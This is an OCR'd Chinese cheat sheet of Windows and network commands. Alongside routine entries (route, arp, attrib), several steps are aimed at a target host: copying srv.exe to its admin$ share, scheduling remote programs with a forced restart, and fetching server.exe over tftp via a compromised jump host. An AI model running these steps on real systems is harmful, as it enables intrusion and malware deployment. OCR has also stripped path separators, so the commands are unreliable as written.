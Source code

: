 ```
at 查看所有的计划任务


at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机


finger username @host 查看最近有哪些用户登陆


telnet ip 端口 远和登陆服务器,默认端口为23


open ip 连接到IP（属telnet登陆后的命令）


telnet 在本机上直接键入telnet 将进入本机的telnet


copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件


copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下


copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件


copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：


xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件


用参数/e才可连目录下的子目录一起复制到目标地址下。


tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exec:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送


tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机


ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)


route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface


arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息


start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令


mem 查看cpu使用情况


attrib 文件名(目录名) 查看某文件（目录）的属性


attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
```